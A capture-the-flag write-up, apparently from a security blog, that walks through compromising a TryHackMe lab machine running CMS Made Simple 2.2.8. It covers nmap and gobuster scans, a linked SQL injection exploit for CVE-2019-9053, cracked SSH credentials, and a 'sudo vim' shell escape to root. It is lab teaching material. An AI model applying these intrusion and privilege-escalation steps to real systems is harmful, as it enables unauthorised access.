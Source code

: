 ```yaml
---
layout: post
title: "CVE-2019-9053"
author: "Nicholas Coleman"
date: 2025-04-11
tags: tryhackme
---
```


## Breaching a Vulnerable Site

I begin by scanning the IP with nmap: 

`nmap -sC -sV -oA ctf1/scan 10.10.75.135`

Results:
```  
Nmap scan report for 10.10.75.135
Host is up (0.12s latency).
Not shown: 997 filtered tcp ports (no-response)

PORT 	STATE SERVICE VERSION
21/tcp   open  ftp 	vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|  	Connected to ::ffff:10.6.25.18
|  	Logged in as ftp
|  	TYPE: ASCII
|  	No session bandwidth limit
|  	Session timeout in seconds is 300
|  	Control connection is plain text
|  	Data connections will be plain text
|  	At session startup, client count was 2
|  	vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT

80/tcp   open  http	Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-title: Apache2 Ubuntu Default Page: It works

2222/tcp open  ssh 	OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 10 16:29:56 2025 -- 1 IP address (1 host up) scanned in 53.75 seconds
```

From the nmap scan, we can see that there are 3 ports open: **21, 80, and 2222**. All of these can be useful for us when trying to think of ways to breach the system. The attack surface of this system is nice to work with - especially when one of the vectors is exploiting the insecure design.

The web server this machine is hosting redirects to the default Apache webpage. But this does not *necessarily* indicate the site is empty, so I decided to look deeper with gobuster to see if there was anything else hidden. **Gobuster** is really handy and easy to use, not to mention - a very fast tool.

Using this command:

`gobuster dir -u 10.10.75.135 -w directory-list-2.3-medium.txt -t 100`

Gobuster shows me that there is indeed another page with the path: `/simple`.

Navigating to /simple brings me to a website called CMS Made Simple. The version is `2.2.8`. The version of the website out in the open like this makes my job a lot easier when trying to find exploits that will work.

![CMS](/security.github.io/images/simple/cms_simple.png)

After a quick Google search, I was able to find that this version of CMS Made Simple is vulnerable to a SQL injection exploit (**CVE-2019-9053**).

https://www.exploit-db.com/exploits/46635

This SQLi Python script extracts the hashed password and cracks it, enabling access to the target system. The results were:

```  
Username: mitch  
Email: admin@admin.com  
Password: 0c01f4468bd75d7a84c7eb73846e8d96  
Cracked Password: secret  
```

Now I am able to ssh into mitch's computer using: `ssh mitch@10.10.75.135 -p 2222` with the password:

![SSH](/security.github.io/images/simple/SSH.png)

Once inside, the User flag: **user.txt** is readily available for me to capture. Easy! 

My next order of business is to see what sudo commands the users here can run. Using `sudo -l`, I am able to see that Mitch is able to run `/usr/bin/vim` as a root user without a password. 

After looking online, I found out that Vim can be used to *break out of restricted environments by spawning an interactive system shell*. This is a huge vulnerability and gives us the ability to escalate our privileges to become the root user - with this simple command: `sudo vim -c ':!/bin/sh'`.

![sudo vim](/security.github.io/images/simple/sudovim.png)

There you go - I have achieved privilege escalation. After navigating to the root directory, I was able to finally find the root flag in **root.txt**:

![final](/security.github.io/images/simple/final.png)

Whoever is running this website needs to *seriously* work on the security!
